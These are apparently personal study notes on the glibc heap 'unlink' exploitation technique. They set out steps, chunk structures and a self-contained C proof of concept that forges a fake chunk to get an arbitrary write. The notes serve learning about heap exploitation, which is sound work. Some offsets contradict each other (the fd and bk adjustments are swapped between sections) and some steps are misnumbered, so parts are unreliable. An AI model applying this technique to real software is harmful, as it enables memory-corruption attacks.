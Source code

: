 ```yaml
---
layout: default
title: Unlink Attacks
tags:
  - pwn
  - heap
---
```

# Unlink Exploit

Unlinking for the heap is the processes of removing free chunks from a bin.
write primitive (write-what-where)

## Goal
- Corrupt fd and bk of chunk
	- `fd` : where
	- `bk` : what
### Requirements
- control over `fd` and `bk` pointers in a free bin linked list:
	- corrupt `fd` and `bk` pointers of a free chunk
	- fake chunk in linked list
- Known locations to write to (leak)
- a call to free on the adjacent chunk.

## Steps
1. setup 2 adjacent chunks of smallbins
2. build a fake_chunk at start of chunk1 and it should overflow into chunk2 metadata so can set `prev_size` and `prev_inuse` bit
	- The size of fake chunk should be equal to `prev_size` field of the next chunk. Size must be `chunk2 (from data) - chunk1 `
	- `fd` and `bk` of fake chunk should  be 
		- `fd` :WHERE - 0x18
		- `bk` : WHAT - 0x10
3. trigger unlink


```c
p->bk = addr - 0x18
p->fd = addr - 0x10
```
3. Enter fake chunk in chunk1
4. Trigger the unlink by freeing chunk 2
5. overwrite chunk1 data with target address

```c
struct fake_chunk {
INTERNAL_SIZE_T      mchunk_prev_size; // + 0x00
INTERNAL_SIZE_T      mchunk_size; // + 0x8  
struct malloc_chunk* fd; // + 0x10 |
struct malloc_chunk* bk; // + 0x18	|aw
}
```

## `Unlink` Macro

easier to read code 

```c
#define unlink(Current, Prev, Next) {
	Next = Current->fd;
	Prev = Current->bk;
	Next->bk = Prev;
	Prev->fd = Next;
}
```

`prev -> current -> next`
![pic1](/assets/images/unlink_1.png)

`prev -> current -> next`
![Pic2](/assets/images/unlink_2.png)


Since we control `fd` and `bk` we have arbitrary write

```c
#define unlink(Current, Where, What) {
	Where = Current->fd; // Next | FD
	What = Current->bk; // Prev | BK
	where->bk = what; // next = prev
	what->fd = where; // prev = nextt
}
```


```c
struct malloc_free_chunk {
INTERNAL_SIZE_T      mchunk_prev_size; // + 0x00
INTERNAL_SIZE_T      mchunk_size; // + 0x8  
struct malloc_chunk* fd; // + 0x10
struct malloc_chunk* bk; // + 0x18
}
```

in order to get the correct address for the `fd` and `bk` pointers 
we need to subtract it
```
p->bk = addr - 0x18
p->fd = addr - 0x10
```

---


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct chunk_structure {
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10];
};

int main () {   

    unsigned long long *chunk1, *chunk2;
    //void *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];

    // get to non fastbin chunks
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    printf("chunk1 ptr : %p\nchunk2 ptr : %p\n", chunk1, chunk2);


    // forge a fake chunk
    fake_chunk = (struct chunk_structure*)chunk1;
    // setup fd and bk pointers to bypass unlink security check
    fake_chunk->fd = (struct chunk_structure*)(&chunk1 - 3); // p->fd->bk == P
    fake_chunk->bk = (struct chunk_structure*)(&chunk1 - 2); // p->bk->fd == p
    printf("Forged fake chunk : %p\nfake_chunk->fd : %p\nfake_chunk->bk : %p\n", &fake_chunk, &fake_chunk->fd, &fake_chunk->bk);

    // modify the header of chunk2 to pass security checks
    chunk2_hdr = (struct chunk_structure*)(chunk2 -2);
    chunk2_hdr->prev_size = 0x80;
    chunk2_hdr->size &= ~1; // uset prev_in_use bit

    printf("Modify chunk2 header : %p\n", &chunk2_hdr);

    
    free(chunk2);
    printf("Now when chunk2 is freed, attacker's fake chunked is unlinked\n");

		 
    chunk1[3] = (unsigned long long)data;
    strcpy(data, "Victim's data");
    printf("Data : %s\n", data);

    chunk1[0] = 0x002164656b636168LL;

    printf("Data : %s\n", data);


    return 0;
}
```

- at least 2 chunks must be allocated
- Make sure that allocated chunks fall in the smallbin range.
- have control of the first chunk and can overflow into second chunk
- A new fake chunk is created in the data part of `chunk1`. The `fd` and `bk` pointers are adjusted to pass the `corrupted double linked list` security check.
- The contents that are overflowed into the second chunk header must set appropriate `prev_size` and `prev_in_use` bit. This ensures that whenever the second chunk is freed, the fake chunk will be detected as 'freed' and will be `unlinked`.  Make sure the `prev_size` is equal to the size of the previous chunk.
- 




```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```


---

## Resources
- [unlink technique explained](https://www.youtube.com/watch?v=FOdkyVcbCk0)
- [unlink exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit)
- [Once upon a free](https://phrack.org/issues/57/9)

---

```c
struct fake_chunk_unlink {
	fd,
	bk
	// data
	// next chunk
	prev_size
	fake_size // unset prev_inuse bit 
}
```

--- 
steps

1. control chunk data and be able to overflow the metadata of adjacent chunk. 
2. fake chunk : forge a fake chunk so it looks like legitimate memory block
3. The fake chunk fd and bk pointers should satisfies the pointer relationship check in unlink opearation. 
4. Modify prev_size of adjacent chunk to pass size check of unlink, and unset its prev_inuse bit
5. Trigger the unlink operation. free adjacent chunk.

--- 
- two chunk with overflow into second chunk
- prev size of corrupted chunk goes must be size from prev_size 